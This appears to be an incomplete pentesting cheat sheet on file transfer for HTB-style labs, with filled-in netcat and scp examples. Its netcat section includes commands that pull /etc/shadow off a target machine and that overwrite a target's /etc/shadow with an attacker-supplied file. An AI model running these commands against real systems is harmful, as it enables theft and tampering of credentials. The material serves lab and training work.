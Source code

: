 # 📁 Transfer files



## Linux

### netcat

**Scene 1**: When we have get files from other machine in our Kali

```bash
nc -nvlp 5555 < /etc/shadow     ( On target machine MS01/HTB + enter )
nc target_ip(HTB) 5555 > shadow
```

**Scene 2**: When we share file to other machine from our Kali

```bash
nc attack_ip(HTB) 5555 < shadow       ( it means whenever connection come share that file ) 
nc -nvlp 5555 > /etc/shadow           ( On target machine MS01/HTB + enter )
```





### FTP



### TFTP





### SCP

\# Copy a file:

```
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
```

\# Copy a directory:

```
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

***

## Windows
